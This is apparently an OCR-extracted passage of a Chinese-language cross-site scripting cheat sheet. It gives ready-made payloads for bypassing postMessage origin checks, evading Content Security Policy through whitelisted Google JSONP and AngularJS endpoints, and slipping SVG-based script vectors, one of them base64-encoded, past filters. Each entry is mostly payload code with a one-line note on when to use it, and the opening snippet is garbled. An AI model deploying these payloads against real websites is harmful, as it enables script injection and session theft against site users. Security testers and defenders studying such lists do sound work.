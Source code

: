```javascript
<scrpt> confirm(1) </scrpt>
```



## postMessage() 事件源绕过

**当目标`Javascript`代码中的源检查可以通过将允许的源作为攻击域的子域前缀来绕过时使用。示例利用`CrossPwn`脚本（在Extra部分中提供）在local host上实现 **

```javascript
http://facebook.com.localhost/crosspwn.html?target=//brutelogic.com.br/tests/
status.html&msg=<script>alert(1)</script>
```



## CSP 绕过（针对白名单中的 Google 域名）

**当存在允许从某些域名执行脚本的 CSP（内容安全策略）时使用。**

```javascript
<script src=//www.google.com/complete/search?client=chrome%26jsonp=alert(1)>
</script>
<script src=//www.googleapis.com/customsearch/v1?callback=alert(1)></script>
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js>
</script><x ng-app ng-csp>{{$new.constructor('alert(1)')()}}
```



## 带有事件处理程序的 SVG 矢量图

**在 Firefox 中有效，但在 `<set>` 中添加 `attributename=x` 也可以使其在基于 Chromium 的浏览器中工作。`<set>` 也可以替换为 `<animate>`。用于绕过黑名单。**

```javascript
<svg><set onbegin=alert(1)>
<svg><set end=1 onend=alert(1)>
```



## 不带事件处理程序的 SVG 矢量图

**用于避免过滤器检测事件处理程序或 `src`、`data` 等属性。最后一个示例仅适用于 Firefox，并且已经进行了 URL 编码。**

```javascript
<svg><a><rect width=99% height=99% /><animate attributeName=href
to=javascript:alert(1)>
<svg><a><rect width=99% height=99% /><animate attributeName=href
values=javascript:alert(1)>
<svg><a><rect width=99% height=99% /><animate attributeName=href to=0
from=javascript:alert(1)>
<svg><use xlink:href=data:image/svg
%2Bxml;base64,PHN2ZyBpZD0ieCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAv
c3ZnIiB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayI
%2BPGVtYmVkIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hodG1sIiBzcmM9Imp
hdmFzY3JpcHQ6YWxlcnQoMSkiLz48L3N2Zz4=%23x>
```
